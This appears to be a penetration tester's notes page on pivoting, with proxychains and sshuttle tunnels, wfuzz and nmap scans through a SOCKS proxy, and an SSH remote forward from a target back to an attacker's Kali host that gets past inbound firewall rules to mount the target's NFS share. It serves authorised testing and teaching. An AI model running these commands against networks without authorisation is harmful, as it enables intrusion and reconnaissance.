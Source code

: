 # Port Forwarding Techniques

### Guides

Tunneling and Pivoting Techniques (GIAC): https://www.giac.org/paper/gwapt/4686/tunneling-pivoting-web-application-penetration-testing/120229

### Dynamic Port Forwarding

This will allow you to access internal network services on dynamic (as opposed to static) ports.

Proxychains
1. Ensure `/etc/proxychains4.conf` is setup with the preferred port (deafult is `9050`).
2. Establish SSH tunnel with proxy server `$ kali> sudo ssh -N -D 127.0.0.1:9050 username@proxy_server/jump_box`
3. Run commands `$ proxychains curl http://[internal_target]`

Sshuttle
```
$ sshuttle user@[proxy_server] [internal_cidr]
$ sshuttle hello@10.11.1.251 10.1.1.0/24
```

Directory brute-force example
* Wfuzz works well, Gobuster requires some setup.
```
$ wfuzz -p 127.0.0.1:9050:SOCKS4 -c -w [/path/to/wordlist] --hc=404 http://[internal_target]/FUZ
```

Nmap scanning via. Proxychains example
```
$ proxychains nmap -Pn -sT -sV [target]
```

### Remote Port Forwarding

SSH remote port forwarding is for opening a connection from within the target -> Kali.
* Can bypass inbound firewall restrictions to SSH (as outbound connection is used).
* Can be used to access a target's localhost services from Kali (see NFS below)
```
# Mount a target's localhost NFS share
$ target> ssh -N -R [kali]:2049:127.0.0.1:2049 kali@[kali_ip]
$ kali> mount -t nfs 127.0.0.1:/ /mnt -o nolock
```
